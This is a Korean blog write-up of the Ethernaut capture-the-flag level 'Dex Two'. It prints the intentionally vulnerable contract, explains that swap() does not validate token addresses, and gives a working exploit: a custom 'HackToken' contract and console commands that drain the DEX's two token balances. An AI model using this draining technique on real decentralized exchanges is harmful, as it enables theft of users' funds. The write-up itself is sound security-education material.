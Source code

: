 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 23) Dex Two
date: '2022-02-11 19:48:00'
author: 한성원
tags: ethernaut DexTwo vulnerability 23
categories: 취약점분석
---
```



# 👋 1. Dex
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- DexTwo Contract의 Token 1과 Token 2의 balance를 전부 소진하기


- - -
## 들어가기 전
22. Dex contract와 마찬가지고 DexTwo contact도 DEX와 ERC20에 대한 지식이 있어야 한다.
Uniswap의 코드를 전부 분석하지는 못하더라도 작동원리에 대해서는 알아야한다.
또한 ERC20 standard에 어떤 function이 필요한지, 어떻게 작동하는지 공부해야한다.
아래 링크들을 통해 충분히 익숙해 진 후 풀기를 권장한다. 링크 이외에 Youtube에도 좋은 자료들이 많다!
- [Uniswap](https://docs.uniswap.org/protocol/V2/introduction)
- [openzeppelin ERC20 contract](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)

## 코드 분석
분석은 주석에 있습니다!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
    using SafeMath for uint;
    address public token1;
    address public token2;
    constructor(address _token1, address _token2) public {
        token1 = _token1;
        token2 = _token2;
    }

    function swap(address from, address to, uint amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint swap_amount = get_swap_amount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swap_amount);
        IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
    }

    function add_liquidity(address token_address, uint amount) public{
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function get_swap_amount(address from, address to, uint amount) public view returns(uint){
        return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint amount) public {
        SwappableTokenTwo(token1).approve(spender, amount);
        SwappableTokenTwo(token2).approve(spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint){
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
    }
}
```

<br/>
Dex contract와 DexTwo contract의 다른 점은 DexTwo는 swap()에서 token 1과 token 2를 확인하지 않는다.
즉 어느 token이라도 swap 될 수 있다.
```solidity
// 이 require 문에 제외되었다.
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```


- - -

## 풀이
이번 문제에서 우리는 Dex가 가진 모든 토큰을 소모하면 된다. 22번 Dex 문제를 잘 이해하고 있어야 풀 수 있다.
그렇다면 어떻게 소모할 수 있을까? 힌트를 보자
- 스왑 방법은 어떻게 수정되었는가? How has the swap method been modified?
- 공격할때에 커스텀 토큰 contract를 사용할 수 있는가? Could you use a custom token contract in your attack?


코드분석 아래에 보면 Dex contract와 DexTwo contract가 어떻게 수정되었는지 알 수 있다.
Dex contract와 다르게 더 이상 Token address를 검증하지 않는다.

그렇다면 우리가 만든 Custom Token으로도 swap이 가능하지 않을까?

Custom Token을 사용한 attack 시나리오를 보자.
1. ERC20 standard를 사용하는 Custom Token을 Deploy한다.
2. Deploy한 Token을 DexTwo contract가 사용할 수 있도록 approve해준다.
3. approve된 개수 중 100개만 liquidity에 add해준다(add_liquidity function 사용).
4. Token 1을 1대1 비율로 swap한다(100개 주고 100개 받고).
5. 이후 Dex contract는 200개의 Custom Token을 가지게 된다(Token 1:0개, Token 2: 100개, Custom Token: 200개). 
6. Token 2를 2대1 비율로 swap해준다(Custom Token 200개 주고, Token 2 100개 받기).
7. Dex contract가 가진 Token 1과 2의 balance를 보면 0이된 것을 확인 할 수 있다.

<br/>

Token 교환 비율은 아래와 같은 공식을 사용해 결정된다.
`(amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this))`
22번 문제를 잘 이해하고 풀었다면 위에 1대1, 2대1 비율이 무슨말인지 알 것이라고 생각한다.

<br/>

그렇다면 Attack에 사용할 contract를 보자.
ERC20 Standard를 이해하고 있어야만 한다!
```solidity
import "@openzeppelin/contracts@3.4.1/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts@3.4.1/token/ERC20/ERC20.sol";

contract HackToken is ERC20 {
    //새로운 Token을 발행하고 나에서 mint한다.
    constructor () public ERC20("HackToken", "HAC") {
        _mint(msg.sender, 1000000 * (10 ** uint256(decimals())));
    }

}
```
<br/>

위 HackToken을 Remix를 사용해 contract를 deploy한다.
발행한 Token은 metamask에서도 확인할 수 있다.
![hackToken](./hacktoken.png)
import tokens에 들어가 HackToken의 주소를 입력하면 위와같이 HackToken의 심불인 HAC를 확인 할 수 있다.

<br/>

Token 발행이 끝났다면 liquidity에 add할 수 있도록 DexTwo를 `approve` 해주어야한다.
Remix에서 Deploy된 contract에서 `approve`에 인자를 넣고 실행시킨다. 그때 `spender`은 DexTwo의 주소이고 `amount`는 앞으로 `approve`를 더하지 않을 수 있도록 `1000`을 입력 후 transaction을 보낸다.

이제 Ethernauts로 돌아와 console창과 상호작용한다.
ctrl + shift + i를 눌러 console창을 활성화 시키자
```js
// DexTwo가 내 token 1과 2를 transferFrom 할 수 있도록 approve 해준다.
await contract.approve(instance, "1000000000000000000000")
// liquidity에 hacking token 100개를 add 해준다.
await contract.add_liquidity("hacking contract address",100)
// hack token 100개를 token 1 100개와 swap 해준다.
await contract.swap("hacking contract address","Token 1 address", 100)
// 이제 liquidity pool에 ㅔHAC token이 200개 있음으로 200개를 swap 해준다.
await contract.swap("hacking contract address","Token 2 address", 200)
// Dex의 Token1과 2의 balance가 0이 된 것을 확인한다.
await contract.balanceOf(await contract.token1(), instance).then(x=> x.toString())
await contract.balanceOf(await contract.token2(), instance).then(x=> x.toString())
```


token1과 2, 모두가 balance가 0이 된 것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이번 문제는 22. Dex 문제에서 바뀐 부분이 명확해서 취약점을 쉽게 찾을 수 있었다. 22번과 23번을 풀면서 약간이남아 swap에 대해 깨달은 것 같다. 또한 이 문제에서는 ERC20 Token이라고해서 모두 신뢰할 수 있는 것은 아니라는 교훈을 주는 것 같다. 이제 얼마 남지 않은 문제들도 열심히 풀어서 초보자 티를 벗어보자 :)


- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org

```toc

```